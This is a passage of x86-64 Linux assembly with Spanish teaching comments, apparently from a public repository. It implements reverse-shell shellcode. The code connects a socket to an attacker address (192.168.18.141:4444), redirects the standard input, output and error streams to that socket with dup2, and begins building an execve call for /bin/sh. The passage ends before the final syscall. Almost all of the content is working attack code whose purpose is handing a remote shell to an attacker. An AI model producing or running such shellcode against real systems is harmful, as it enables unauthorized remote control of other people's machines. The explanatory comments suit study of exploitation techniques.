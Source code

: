 ```nasm
    ; Conecta el socket a la IP:puerto del atacante (192.168.18.141:4444)
    
    mov rax, 42        ; syscall: connect
    mov rdi, r8        ; FD del socket
    
    ; Construimos la estructura sockaddr_in en la pila (16 bytes):
    ; Offset | Campo        | Valor      | Descripción
    ; -------|--------------|------------|---------------------------
    ; 0-1    | sin_family   | 0x0002     | AF_INET (2)
    ; 2-3    | sin_port     | 0x5c11     | Puerto 4444 (big-endian)
    ; 4-7    | sin_addr     | 0x8d12a8c0 | IP 192.168.18.141 (big-endian)
    ; 8-15   | sin_zero     | 0x00...    | Padding (8 bytes a cero)
    
    xor r9, r9         ; r9 = 0
    push r9            ; Padding (8 bytes de ceros)
    mov r10, 0x8d12a8c05c110002  ; IP + puerto + familia (empaquetados)
    push r10           ; Empujamos la estructura completa
    
    mov rsi, rsp       ; rsi apunta al tope de la pila (struct sockaddr_in)
    mov rdx, 16        ; Tamaño de sockaddr_in (16 bytes)
    syscall

    ; ========================================================================
    ; 3. DUP2 (syscall 33) - Loop para redirigir stdin/stdout/stderr
    ; ========================================================================
    ; Duplica el socket FD sobre los descriptores estándar (0, 1, 2)
    ; Esto hace que cualquier entrada/salida de la shell vaya por el socket
    
    xor rsi, rsi       ; Contador = 0 (stdin)
.dup2:
    mov rax, 33        ; syscall: dup2
    mov rdi, r8        ; oldfd = socket FD
                       ; newfd = rsi (0, 1, 2 en cada iteración)
    syscall
    
    inc rsi            ; Incrementar contador
    cmp rsi, 3         ; ¿Ya duplicamos 0, 1 y 2?
    jl .dup2           ; Si no, repetir

    ; ========================================================================
    ; 4. EXECVE (syscall 59)
    ; ========================================================================
    ; Reemplaza el proceso actual por /bin/sh
    ; Como stdin/stdout/stderr apuntan al socket, la shell es interactiva
    ; a través de la conexión TCP
    
    mov rax, 59        ; syscall: execve
    
    ; Construimos la cadena "/bin/sh" en la pila:
    push 0             ; Null terminator
    mov r11, 0x68732f6e69622f  ; "/bin/sh" en little-endian
                                ; (6E 69 62 2F 73 68 = n i b / s h)
    push r11
    mov rdi, rsp       ; rdi = puntero a "/bin/sh"
    
    ; argv = ["/bin/sh", NULL]
    push 0             ; argv[1] = NULL
    mov rsi, rsp       ; rsi = puntero al array argv
    
    ; envp = NULL
    push 0
    mov rdx, rsp       ; rdx = puntero a envp (vacío)
    
```